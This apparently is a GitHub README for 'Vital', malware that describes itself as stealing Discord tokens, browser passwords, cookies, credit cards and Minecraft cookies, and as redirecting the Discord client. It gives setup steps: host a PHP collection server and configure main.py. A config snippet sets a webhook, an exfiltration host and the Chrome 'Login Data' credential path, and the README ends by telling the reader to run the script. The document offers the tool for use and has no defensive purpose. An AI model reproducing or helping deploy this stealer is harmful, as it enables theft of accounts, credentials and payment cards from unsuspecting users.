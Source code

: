 # Vital
- What is Vital?
> Vital is malware primarily used to collect and
> extract information from the Discord desktop client.
> While it has other features (MC stealer, browser tools)
> it really shines in this area.

- Overview of Vital
> Vital has the ability to steal browser passwords, cookies, and credit cards.
> It also collects Discord tokens, Minecraft client cookies and can redirect
> the Discord client to an alternative web address.

- Support / coverage
> Vital supports a plethora of Discord clients and browsers,
> from commonly used browsers such as Chrome and Firefox to
> lesser used browsers such as (i don't know)

# Usage
Setup a webserver on either a local machine or a remote machine, hosting the
PHP file. Once you have your local server setup, make sure to configure everything
**__properly__** inside of `main.py`.

- Example
```python
WEBHOOK = '
REDIRECT = ''
HOST = '
CHROME_DATA = '\\AppData\\Local\\Google\\Chrome\\User Data\\Default\\Login Data'
USERNAME = os.environ.get('USERNAME')
APPDATA = os.getenv('APPDATA')

DEBUG = False
```

After this you can execute `main.py` and watch the magic happen!
















